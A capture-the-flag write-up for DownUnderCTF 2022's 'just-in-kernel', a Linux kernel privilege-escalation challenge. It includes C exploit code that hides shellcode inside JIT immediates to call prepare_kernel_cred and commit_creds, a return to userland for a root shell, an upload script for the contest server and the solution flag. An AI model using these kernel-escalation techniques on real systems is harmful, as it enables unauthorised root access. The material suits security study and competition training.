# DownUnderCTF2022 - just-in-kernel

### Reference source

https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/pwn/just-in-kernel/solve/exploit.c

https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/

https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/

---

Challenge file: [justinkernel.zip](justinkernel.zip)

There will be 3 files in zip:
- bzImage
- initramfs.cpio.gz
- launch.sh

# 1. Setup & find bug

We are provided with a compressed kernel image `bzImage` so let's extract that and find all available gadgets which might be helpful later. To extract, I will use the same script as `lkmidas` show and name the file as `extract-image.sh`:

```bash
#!/bin/sh
# SPDX-License-Identifier: GPL-2.0-only
# ----------------------------------------------------------------------
# extract-vmlinux - Extract uncompressed vmlinux from a kernel image
#
# Inspired from extract-ikconfig
# (c) 2009,2010 Dick Streefland <dick@streefland.net>
#
# (c) 2011      Corentin Chary <corentin.chary@gmail.com>
#
# ----------------------------------------------------------------------

check_vmlinux()
{
        # Use readelf to check if it's a valid ELF
        # TODO: find a better to way to check that it's really vmlinux
        #       and not just an elf
        readelf -h $1 > /dev/null 2>&1 || return 1

        cat $1
        exit 0
}

try_decompress()
{
        # The obscure use of the "tr" filter is to work around older versions of
        # "grep" that report the byte offset of the line instead of the pattern.

        # Try to find the header ($1) and decompress from here
        for     pos in `tr "$1\n$2" "\n$2=" < "$img" | grep -abo "^$2"`
        do
                pos=${pos%%:*}
                tail -c+$pos "$img" | $3 > $tmp 2> /dev/null
                check_vmlinux $tmp
        done
}

# Check invocation:
me=${0##*/}
img=$1
if      [ $# -ne 1 -o ! -s "$img" ]
then
        echo "Usage: $me <kernel-image>" >&2
        exit 2
fi

# Prepare temp files:
tmp=$(mktemp /tmp/vmlinux-XXX)
trap "rm -f $tmp" 0

# That didn't work, so retry after decompression.
try_decompress '\037\213\010' xy    gunzip
try_decompress '\3757zXZ\000' abcde unxz
try_decompress 'BZh'          xy    bunzip2
try_decompress '\135\0\0\0'   xxx   unlzma
try_decompress '\211\114\132' xy    'lzop -d'
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```



When we have the kernel image, we can find all available gadgets with `ROPgadget` and save them to a file:



Next, with the given file system `initramfs.cpio.gz`, we can use the script of `lkmidas` to decompress the file:

```bash
#!/bin/sh

mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```

After run the file, we can see a new folder called `initramfs` created. The reason why we want to decompress the file system is because firstly, the file system will have the kernel object which might be vulnerable and we need to attack that kernel object. Secondly, we want to change the uid to `0` (root) for easier exploitation and lastly, we want to put our exploit binary to the system, it will be included when we launch local system and we can run the exploit binary without transfering.

Changing directory to `initramfs` which we have just got. Open the file `init` and change the number `1000` of line `setuidgid 1000 /bin/sh` to `0` so that when we launch system, we are acting as root.

Before we change:



After changed:



We can see there is an object called `challenge.ko`. Let's decompile this file in IDA to see what it does. In init_module(), it create the module in `/proc` directory with name `challenge`. Both functions challenge_read() and challenge_open() seem useless. 

The only useful function is challenge_write(). It executes copy_from_user() to get data from user to a local kernel buffer, then parse instructions with instructions_parse(), compile instructions with compile_instructions() and execute the instructions if no error return from those 2 functions. So we know this is a x86-vm challenge.

Let's check the function instructions_parse(). In here, it will call another function instruction_from_str(). In this function, it parses 3 parameter with the first one is instruction as the function mnemonic_from_str() show:



We can see several instructions are available but in fact, we can use just 3 instructions are `mve`, `add` and `jmp` (you can check the function compile_instructions() to confirm). The second and third parameter is an operand. It can be `a` for register rax, `b` for rbx, `c` for rcx, `d` for rdx and an value for immediate value:



Note that if that's a register, the function will return an odd value. Otherwise, if that's a value, an even number will be returned (the line `return 2 * v5[0]`). In short, after checking compile_instructions(), all the instruction formats can be as follows:

```
mve <register> <immediate-value>
add <register> <register>
jmp <immediate-value>
```

For example, these instructions are valid when compiling:

```
mve a 12
mve d 999
add a b
add d c
jmp 2
jmp 200
```

That's all we should know about the kernel object. After we changed necessary stuff or completed exploit script file, we can compile exploit script and compress the file back with this script:

```bash
musl-gcc -o r -static r.c
mv ./r ./initramfs

read -p "Press ENTER to continue..."

cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```

Notice that we will use musl-gcc to reduce binary size because after we have completed our exploit script, we need to compile the file and transfer that binary to server byte by byte. Therefore, if the size is too large, it will take a long time or maybe timeout. Musl-gcc will help us redure the size by around 80%, make the file much smaller than compiling with normal gcc. For installation of musl-gcc, you can read [here](https://www.howtoinstall.me/ubuntu/18-04/musl-tools/)

Let's move on with the last file `launch.sh`:

```bash
/usr/bin/qemu-system-x86_64 \
    -m 64M \
    -kernel $PWD/bzImage \
    -initrd $PWD/initramfs.cpio.gz \
    -nographic \
    -monitor none \
    -no-reboot \
    -cpu kvm64,+smep,+smap \
    -append "console=ttyS0 nokaslr quiet"
```

By looking at `-cpu kvm64,+smep,+smap`, we can see `SMEP` (Supervisor Mode Execution Protection) and `SMAP` (Supervisor Mode Access Prevention) are on, but `KASLR` is off (`nokaslr` in `-append`). Usually, enabling `SMEP` will enable `KPIT` (Kernel Page-Table Isolation) too. We will add another parameter is `-s` for debuging:

```bash
/usr/bin/qemu-system-x86_64 \
    -m 64M \
    ...\
    -append "console=ttyS0 nokaslr quiet" \
    -s
```

When we launch the system, just open gdb and run command `target remote localhost:1234`, we can start debuging the kernel.

# 2. Idea

The straight idea is to take advantage of `jmp` to jump to the shellcode we want. But where is shellcode? We can use `mve` to move an instruction byte code to a register and make it jump to that byte code.

For example, with an instruction `xor rdi, rdi` whose byte code is `\x48\x31\xff`, convert to number is `0xff3148`, if we have an instruction `mov rax, 0xff3148`, we will have byte code `\x48\x31\xff` lays inside the instruction `mov rax, 0xff3148`:



So if we `jmp` directly to that byte code of `xor rdi, rdi`, we can execute `xor rdi, rdi` without executing `mov rax, 0xff3148`. But after we exeucte `xor rdi, rdi`, there will be null byte after that so we can use obcode of `pop` or `push` to fill in that. With the instruction `mov rax, 0xff3148` above, we will add 1 byte of `push rbp` whose obcode is `\x55` and that instruction becomes `mov rax, 0x55ff3148`.

We know how to execute our shellcode. All we need to do now is executing `commit_creds(prepare_kernel_cred(0))` and find address of a function called `swapgs_restore_regs_and_return_to_usermode()`. Because `SMEP` is enable so if we can successfully make rip point to a function in user-land, we still cannot execute that function because it's still marked as non-executable when we are still in kernel table. By executing swapgs_restore_regs_and_return_to_usermode() will swap tables back to userland and the function of binary will be executable again.

Summary:
- Stage 1: Save userland state
- Stage 2: Execute prepare_kernel_cred()
- Stage 3: Execute commit_creds()
- Stage 4: Load userland state to stack
- Stage 5: Get shell

# 3. Exploit

### Stage 1: Save userland state

We need to saved 4 registers cs, ss, rflags and rsp first:

```c
unsigned long long int user_cs, user_ss, user_sp, user_rflags;
void save_state()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov user_cs, cs;"
		"mov user_ss, ss;"
		"mov user_sp, rsp;"
		"pushf;"
		"pop user_rflags;"
		".att_syntax;"
	);
	puts("[*] Saved state");
}
```

This function is still in userland so we can execute it normally. After saving current state, we need to open the device to interact with it:

```c
unsigned long long int glob_fd;
void open_device()
{
	glob_fd = open("/proc/challenge", O_RDWR);
	if (glob_fd < 0)
	{
		puts("[!] Failed to open device");
		exit(-1);
	}
	else
		puts("[*] Opened device");
}
```

When we opened device, we need to write our payload. It's time to craft our payload for the kernel.

### Stage 2: Execute prepare_kernel_cred()

We need to get the address of function prepare_kernel_cred(). We can check the file `/proc/kallsyms` for all the addresses of functions:



The address for function prepare_kernel_cred() is `0xffffffff81084d30`. To write our shellcode, we will do the trick as I have explained above so we have the following code:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////
	// mov eax, 0xffffffff
	i += sprintf(&payload[i], "jmp %u\n", 12*1+10*0+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55ffffffffb8LL);

	// shl rax, 32
	i += sprintf(&payload[i], "jmp %u\n", 12*2+10*1+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d20e0c148LL);

	// mov edx, 0x81084d30
	i += sprintf(&payload[i], "jmp %u\n", 12*3+10*2+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d5581084d30baLL);

	// or rax, rdx
	i += sprintf(&payload[i], "jmp %u\n", 12*4+10*3+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55d00948LL);

	// xor rdi, rdi ; call rax
	i += sprintf(&payload[i], "jmp %u\n", 12*5+10*4+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55d0ffff3148LL);

	// mov rcx, rax
	i += sprintf(&payload[i], "jmp %u\n", 12*6+10*5+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55c18948LL);
	
	// For ending instruction
	i += sprintf(&payload[i], "jmp %u", 0);
}
```

You can debug the code to know how payload work. Remember that we have add `-s` to file `launch.sh` so if we execute `target remote localhost:1234`, we can debug the kernel.

### Stage 3: Execute commit_creds()

Again, just find the address of function commit_creds() because `KASLR` is disable and the address is remain the same:



The address is `0xffffffff810848f0`. Let's write our shellcode now:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////
	// mov eax, 0xffffffff
	i += sprintf(&payload[i], "jmp %u\n", 12*7+10*6+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55ffffffffb8LL);

	// shl rax, 32
	i += sprintf(&payload[i], "jmp %u\n", 12*8+10*7+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d20e0c148LL);

	// mov edx, 0x810848f0
	i += sprintf(&payload[i], "jmp %u\n", 12*9+10*8+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55810848f0baLL);

	// or rax, rdx
	i += sprintf(&payload[i], "jmp %u\n", 12*10+10*9+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55d00948LL);

	// mov rdi, rcx ; call rax
	i += sprintf(&payload[i], "jmp %u\n", 12*11+10*10+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55d0ffcf8948LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```

### Stage 4: Load userland state to stack

We want to execute `swapgs` to mark register gs as userland and `iretq` to set cs, ss, rsp, rflags and rip to userland too so we need to set stack in the correct order as:

```
|      rip     |
|      cs      |
|    rflags    |
|      sp      |
↓      ss      ↓    Stack increase
```

After we load the stack as following, we need to find the address for function swapgs_restore_regs_and_return_to_usermode():



It's at `0xffffffff81c00a2f`. Let's debug to see what the function does:



A bunch of pop at the begining. Because our shellcode and instructions are limited, we can skip those pop and jump right at `0xffffffff81c00a45`, which is address of function added with `22`. Before it executes `swapgs`, it pop another registers so we need to add 1 pad chunk to make sure our registers on stack are still in the correct position:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////

	...

	///////////////////////////////////////////////////
	////// Stage 4: Load userland state to stack //////
	///////////////////////////////////////////////////
	// push rax ; push rbx ; push rcx ; push rdx
	i += sprintf(&payload[i], "mve a %llu\n", user_ss);
	i += sprintf(&payload[i], "mve b %llu\n", user_sp);
	i += sprintf(&payload[i], "mve c %llu\n", user_rflags);
	i += sprintf(&payload[i], "mve d %llu\n", user_cs);
	i += sprintf(&payload[i], "jmp %u\n", 12*12+10*15+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d52515350LL);

	// push rax ; push rbx ; push rcx ; shl rcx, 32
	i += sprintf(&payload[i], "mve a %llu\n", user_rip);
	i += sprintf(&payload[i], "mve b %u\n", 0);
	// Prepare for swapgs_restore...() address in rcx
	i += sprintf(&payload[i], "mve c %u\n", 0xffffffff);
	i += sprintf(&payload[i], "mve d %u\n", 0x81c00a2f + 22);
	i += sprintf(&payload[i], "jmp %u\n", 12*13+10*20+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555b20e1c1485350LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```

### Stage 5: Get shell

Now we just need to build the address in rcx and call that to get shell:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////

	...
	
	///////////////////////////////////////////////////
	////// Stage 4: Load userland state to stack //////
	///////////////////////////////////////////////////

	...

	////////////////////////////////
	////// Stage 5: Get shell //////
	////////////////////////////////
	// or rcx, rdx ; call rcx
	i += sprintf(&payload[i], "jmp %u\n", 12*14+10*21+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0xd1ffd10948LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```

After all, we have a complete script. Let's build the script first with musl-gcc with command `musl-gcc -static -o r r.c` and compare with file compiled by gcc:



Command for musl-gcc is similar with gcc but the size is different. Remember to add `-static` when compiling. Let's set the uid in `init` file from `0` back to `1000` and put the file in it, run the exploit binary and check if we get root or not:



We get root now! Let's find a way to put our file on server. Before we do that, we should check if server has some program for compress and decompress the file because we want the size our exploit binary to be the smallest. Luckily, we found gzip installed on system:



So let's compress our exploit file first:



Wow, the size is reduced by a half again. Now, to transfer this file to server, we can use the command `echo` of linux to print byte to a file. For example:

```bash
echo -ne "\x41\x42\x43\x44" >> output 
```

We will do it with python script. Read the file and convert from byte to string of byte with prefix `\x` to make sure echo doesn't get error or make sure `\n` will not appear in payload, just `\x0a` because if our payload has `\n` it will mark as ENTER and our echo command will get wrong:

```python
#!/usr/bin/python3

from pwn import *

p = remote('2022.ductf.dev', 30020)

### Read byte of gzip file
with open('initramfs/r.gz', 'rb') as f:
	data = f.read()

### Convert from byte to string. Ex: b'H\n' -> '\x48\x0a'
b = ''
for i in data:
	b += '\\x' + hex(i)[2:].rjust(2, '0')
n = 0x200
log.info(f"Will need to send {int(len(b) / n) + 1} times")

### Send payload to server
k = 1
p.sendlineafter(b'$', b'cd /home/ctf')
for i in range(0, len(b), n):
	print(f"Sent: {k}", end='\r')
	if (i+n > len(b)):
		p.sendline(f'echo -ne "{b[i:]}" >> r.gz'.encode())
	else:
		p.sendline(f'echo -ne "{b[i:i+n]}" >> r.gz'.encode())
	p.recvuntil(b'echo')
	k+=1

context.log_level = 'debug'
p.interactive()
```

Full exploit script: [exploit.c](exploit.c)

# 4. Get flag



Flag is `DUCTF{1_gu355_iT_W4SnT_m3m0Ry_s4Fe_4Fter_4ll}`